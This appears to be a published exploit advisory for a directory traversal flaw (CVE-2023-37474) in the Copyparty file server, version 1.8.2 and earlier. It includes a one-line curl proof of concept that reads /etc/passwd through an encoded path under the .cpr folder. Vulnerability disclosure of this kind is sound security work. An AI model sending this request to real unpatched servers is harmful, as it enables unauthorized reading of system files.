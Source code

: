 # Copyparty 1.8.2 - Directory Traversal
* Date: 14/07/2023
* Exploit Author: Vartamtzidis Theodoros (@TheHackyDog)
* Vendor Homepage: [https://github.com/9001/copyparty/](https://github.com/9001/copyparty/)
* Software Link: [https://github.com/9001/copyparty/releases/tag/v1.8.2](https://github.com/9001/copyparty/releases/tag/v1.8.2)
* Version: <=1.8.2
* Tested on: Debian Linux
* CVE : CVE-2023-37474

## Description
Copyparty is a portable file server. Versions prior to 1.8.2 are subject to a path traversal vulnerability detected in the `.cpr` subfolder. 
The Path Traversal attack technique allows an attacker access to files, directories, and commands that reside outside the web document root directory.

## POC
```bash
curl -i -s -k -X GET 'http://127.0.0.1:3923/.cpr/%2Fetc%2Fpasswd'
```